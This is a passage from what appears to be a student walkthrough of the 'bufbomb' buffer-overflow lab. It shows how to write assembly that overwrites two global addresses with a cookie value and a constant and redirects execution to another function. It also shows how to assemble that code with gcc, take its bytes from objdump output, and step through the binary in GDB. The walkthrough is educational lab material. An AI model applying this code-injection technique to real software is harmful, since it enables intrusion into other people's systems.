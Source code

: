 Afterwards, the program will re-check **cmpl $0xffffffff, 0x804d100** whether the contents of address 0x804d100 is equal to a constant 0xffffffff or not. If not, the program will issue an error message. So how do we change it so that the value is equal to the constant? The step is similar to the previous explanation, namely we only change the contents of 0x804d100.

Ok, now we'll simplify what we need to do on this level:

> 1. Change the contents of address 0x804d104 into our cookie (0x1d9ed824).<br />
> 2. Change the contents of address 0x804d100 into a constant 0xffffffff.<br />

To change the contents of an address, we can't just directly do the thing through user input. As both of addresses aren't located within the stack, we need to inject codes where the contents is also Assembly code. 

So, open your text editor and type this Assembly code:

> movl $0x1d9ed824, 0x804d104<br />
> movl $0xffffffff, 0x804d100<br />
> pushl $0x08048bf3<br />
> ret<br />

The first row of the above code shows us that it'll change the contents of address 0x804d104 into a constant 0x1d9ed824 which is our cookie value.

The second row of the above code shows us that it'll change the contents of address 0x804d100 into a constant 0xffffffff.

The third row of the above code shows us that it'll insert an address 0x08048bf3 into the stack so that after the calling process for function **ah_choo()** is finished, the program will be directly returning to address 0x08048bf3 where it's an address of procedure **annyeong()**. 

Afterwards, please save that file with your chosen name (the file extension is **s**). In this case, I named it with **assemblylvl2.s**.

Now let's compile of code. Use this command:

> gcc -m32 -c assemblylvl2.s<br />
> objdump -d assemblylvl2.o > assemblylvl2.d<br />
> cat assemblylvl2.d<br />

It'll give this result:

Compiled code: | | |
--- | --- | ---
assemblylvl2.o:     file format elf32-i386 | | 
Disassembly of section .text: | | 
00000000 <.text>: | | 
0:    c7 05 04 d1 04 08 24   |  movl  |  $0x1d9ed824,0x804d104
7:    d8 9e 1d               | | 
a:    c7 05 00 d1 04 08 ff   |   movl |  $0xffffffff,0x804d100
11:    ff ff ff              | | 
14:    68 f3 8b 04 08        |   push |  $0x8048bf3
19:    c3                    |   ret | 

Then, use GDB again and give a free input. In this case I gave **A** character as much as 9 times as the input. 

> gdb bufbomb<br />
> (gdb) b ah_choo<br />
> Breakpoint 1 at 0x8048cec<br />
> (gdb) run -u eksperimen<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048cec in ah_choo ()<br />
> (gdb) ni<br />
> 0x08048cef in ah_choo ()<br />
> (gdb) ni<br />
> 0x08048cf3 in ah_choo ()<br />
> (gdb) ni<br />